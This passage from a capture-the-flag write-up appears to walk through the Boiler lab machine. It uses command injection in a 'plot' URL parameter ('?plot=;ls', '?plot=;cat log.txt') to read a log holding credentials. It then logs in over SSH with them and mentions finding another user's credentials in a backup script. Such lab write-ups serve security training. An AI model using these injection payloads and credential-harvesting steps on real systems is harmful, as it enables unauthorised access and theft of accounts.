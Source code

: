 Interesting, lets give it a shot.

### Exploitation

Trying out: http://10.10.122.19/joomla/_test/index.php?plot=;ls shows us the contents of the directory:

(Note: I'm viewing the page source here for ease of screen-shotting. It is easier to just access the contents as described in the exploit)

![log.png](../assets/boiler_ctf_assets/log.png)

Log.txt seems interesting, lets check that out: 

`http://10.10.122.19/joomla/_test/index.php?plot=;cat log.txt`

![creds.png](../assets/boiler_ctf_assets/creds.png)

Cool, looks like we've got some credentials now. Lets use these to login with SSH:

```text
┌──(ryan㉿kali)-[~/THM/Boiler_CTF]
└─$ ssh basterd@10.10.122.19 -p 55007
The authenticity of host '[10.10.122.19]:55007 ([10.10.122.19]:55007)' can't be established.
ED25519 key fingerprint is SHA256:GhS3mY+uTmthQeOzwxRCFZHv1MN2hrYkdao9HJvi8lk.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.122.19]:55007' (ED25519) to the list of known hosts.
basterd@10.10.122.19's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

8 packages can be updated.
8 updates are security updates.


Last login: Thu Aug 22 12:29:45 2019 from 192.168.1.199
$ whoami && hostname
basterd
Vulnerable
```

Looking around the box I find a file called backup.sh with user stoner's credentials, lets use those to `su stoner`
